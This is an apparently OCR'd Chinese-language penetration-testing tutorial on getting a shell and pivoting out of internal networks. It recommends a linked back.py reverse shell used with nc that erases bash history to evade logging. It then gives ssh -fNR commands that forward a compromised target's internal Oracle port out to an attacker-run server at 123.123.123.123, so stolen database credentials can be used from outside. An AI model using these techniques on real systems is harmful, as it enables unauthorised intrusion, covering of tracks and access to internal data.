 # 各种环境下的渗透测试

### getshell:

* * *

找到切入点后，首先是要弹个shell，一般我用[back.py](http://static.wooyun.org/20141017/2014101711593519930.zip)

配合nc使用，nc监听端口就不说了。

back.py会自动去掉各种history记录，确保shell断掉的时候不会被记录到bash_history里面

### ssh各种姿势

* * *

反弹内网端口：

ssh有几个比较重要的参数：

```
-f: 连接成功后切换到后台，不会占用当前的shell，shell断了也会继续执行，相当于 nohup和&。 
-N: 连接后不调用shell，用处后面讲。 
-R:把本地网络(可以是本机或者任何内网甚至外网端口)端口反弹到ssh服务器

```

用法：

首先你要有个外网ip的ssh服务器，如果目标内网限制了访问端口，可以开到常见端口比如80或者443上面，可以直接改设置或者iptables映射一下。你需要有这个服务器的root权限。在sshd_config里面打开端口转发, AllowTcpForwarding yes 还有 Gateway Ports,如果之前没开的话改完需要重启一下sshd。

另外就是因为反弹端口需要让目标机器登录到你的ssh服务器，为了安全起见需要建立一个专门用来端口转发的用户，useradd随便建个用户，设置密码然后到/etc/passwd里面，把最后一个':'后面的shell位置改成/sbin/nologin或者/bin/false，这样即使对方记录了你的ssh密码也没法对你转发的服务器做什么(比如取证之类)

-N的作用：

因为转发用的用户没有shell，如果没有-N的话会因为得不到shell而自动断开连接，-N可以避免这一点。

开始转发：

```
ssh -fNR 要反弹到的端口:目标本机或者内外ip:要反弹的目标端口 转发专用用户名@你的ssh服务器ip 执行后会问你转发用户名的密码，输入成功后会自动切换到后台

```

例子1：

本地转发： 目标机器上有个oracle端口在1521，但是只能从内网访问。提权提不上，没装sqlplus等工具，webshell数据库管理各种出错，不过翻到了登录用户名和密码。不过我自己的机器上装了个navicat for oracle⋯⋯ ssh服务器上的端口转发用户名叫forward，服务器ip是123.123.123.123

```
ssh -fNR 11521:127.0.0.1:1521 forward@123.123.123.123

```

注意：之所以开到11521端口是因为<1024的端口需要root权限才能占用，另外注意你反弹到服务器的端口不能被iptables之类的挡住，不然你没法从外网访问(废话么)

反弹成功后，打开navicat，新建个连接，ip输入123.123.123.123，端口输入11521,然后用户名和密码，啪啪啪⋯⋯连上了
